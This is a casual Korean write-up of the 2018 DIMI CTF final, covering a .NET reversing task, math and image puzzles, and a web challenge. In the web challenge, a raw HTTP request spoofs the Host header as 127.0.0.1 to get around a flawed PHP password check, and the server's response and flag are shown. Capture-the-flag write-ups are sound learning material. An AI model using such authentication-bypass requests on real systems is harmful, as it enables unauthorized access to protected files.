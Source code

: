 # 2018 DIMI CTF (KDMHS CTF) Final

원래 안쓰려고 했는데 [@JunhoYeo](https://github.com/JunhoYeo)형이 기대된다고 하시길래.. 대충 끄적여 봅니당.

포넙은 못 건들었어요 ㅠ 죄송합니당..

## Reversing
### Waiting

열어보지도 않고 그냥 .NET Reflector로 깠다.

![](img/waiting.png)

소켓 통신을 하는것 같아서 저 주소를 가지고 nc로 열어봤다.

그냥 1 입력하니까 안된다고 해서 999 입력했더니 플래그가 나왔다!

```
 D3V0NNURI > ~/ctf/2018-DIMI-CTF-BONSUN > nc 121.170.91.11 7788
1
Wait you send wrong day!
 D3V0NNURI > ~/ctf/2018-DIMI-CTF-BONSUN > nc 121.170.91.11 7788
999
The Flag is dimi{the_time_is_running_out}
```


## Web
### DIMI STORAGE

소스 나오기 전까지는 건들지도 않다가 소스 나온다니까 소스 분석하니 다음 코드가 있었다.

```php
if($_GET['password'] != $password) {
  if($_SERVER['HTTP_HOST'] != "127.0.0.1") {
    echo "FAIL - Password Error";
    exit(-1);
  }
}
```

저 HTTP_HOST를 조작할 수 있지 않을까 생각해서 구글링을 했다.

`Host` 헤더를 바꾸면 되는것 같다! cURL은 사용할 줄 몰라서 telnet으로 대충 했다.

```
 D3V0NNURI > ~/ctf/2018-DIMI-CTF-BONSUN > nc 121.170.91.14 80
GET /4e818133cd4413425429613b06a55453/download.php?id=00000000000000000000000000000000 HTTP/1.1
Host: 127.0.0.1 ⏎
⏎

HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="00000000000000000000000000000000"
Content-Length: 19
Content-Type: application/octet-stream

dimi{iamlocalhost}
```

```
FLAG: dimi{iamlocalhost}
```

## MISC
### guess_returns

~~*게싱.. 시부레..*~~

게싱이 하나 더 나와따~

생각나는거 유튜브, 픽시브, 임거 다 들어가 보았지만 안되었다!

음.. 비트면 뭐가 있지? 하다가 `goo.gl` 삘받아서 해도 안되서 비슷한거 `bit.ly` 하니까 잘 되었다!

준호형꺼 보고 라업쓰는거라.. 저도 플래그를 모릅니다?

```
FLAG: dimi{Th1s_1s_3xp3r1enc3_b4sed_gu3ss1ng_1sn't_1t?}
```

### MAAATH

pwntools로 eval해서 풀었다.

완전 대충 풀었다는거 눈에 보이죠.. ㅠㅠ

[math.py](misc/math.py)

```
FLAG: dimi{Yeah, you are good at math!:)}
```

### image

처음에 LSB만 건드리다가.. 힌트도 나오고 누가 먼저 풀어서 이거 풀수 있나 보다 해서 빡집중해따..

준호형이 저번에 [머 올린게](http://nogadaworks.tistory.com/93) 생각나서 각 픽셀을 rgb로 이어서 한 파일로 이었다. Python3용 PIL Wrapper인 Pillow를 이용해서 풀었다.

처음에 width와 height를 바꿔 풀어서.. 애먹어써요 ㅠㅠ

[이어주는 코드](misc/image.py)

이어주게되면 ELF ~~*(그 elf 말구..)*~~ 파일이 주어진다.

실행시키면 플래그가 바로 나온다(?)

```
 D3V0NNURI > /mnt/c/devonnuri/CTF/DIMI CTF BONSUN 2018 > ./imageResult
dimi{ELF_!N_1M4G3}
```

```
FLAG: dimi{ELF_!N_1M4G3}
```
